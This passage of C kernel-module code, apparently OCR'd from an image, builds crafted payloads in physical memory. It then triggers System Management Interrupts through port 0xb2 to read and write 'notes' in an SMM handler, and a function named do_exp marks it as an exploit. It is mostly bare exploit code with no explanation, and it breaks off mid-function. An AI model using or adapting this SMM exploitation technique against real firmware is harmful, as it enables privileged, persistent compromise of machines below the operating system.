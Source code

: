 ```c
    memcpy_toio(io_addr, &target_guid, sizeof(efi_guid_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t), &len, sizeof(size_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t) + sizeof(size_t), &payload, sizeof(comm_data_t));

    printk(KERN_INFO "Triggering dump SMI \n");

    outb(0x0, 0xb2);
}

static void get_note(uint32_t idx, char* data) {
    comm_data_t payload;
    payload.cmd = GET_NOTE;
    payload.idx = idx;
    size_t len = sizeof(payload) + 24;

    u64 combuf_off = 56;
    u64 buffersz_off = combuf_off + 8;
    u64 ret_off = buffersz_off + 8;

    write_phys_mem(smcc + combuf_off, 8, &payload_loc);
    write_phys_mem(smcc + buffersz_off, 8, &len);

    memcpy_toio(io_addr, &target_guid, sizeof(efi_guid_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t), &len, sizeof(size_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t) + sizeof(size_t), &payload, sizeof(comm_data_t));

    printk(KERN_INFO "Triggering IN SMI \n");

    outb(0x0, 0xb2);

    comm_data_t out;

    memcpy_fromio(&out, io_addr + sizeof(efi_guid_t) + sizeof(size_t), sizeof(comm_data_t));

    memcpy(data, out.data.note.note, sizeof(out.data.note.note));
}

static void dump_buf(void *buf, size_t sz)
{
    uint64_t* p_buf = (uint64_t*)buf;
    int i;
    for (i = 0; i < sz / 8; i++) {
        printk(KERN_INFO "%llx\n",p_buf[i]);
    }
}

static int do_exp(void)
{
    printk(KERN_INFO "do_exp called \n");
    smcc = find_smm_core_private_data();

    payload_loc = find_data_reg();

    if (!payload_loc) {
        printk(KERN_INFO "to find payload loc\n");
        return -1;
    }

    // Map the physical address to a virtual address
    io_addr = ioremap(payload_loc, PAGE_SIZE);
    if (!io_addr) {
        pr_err("unable to map payload loc %lx\n", payload_loc);
        return -1;
```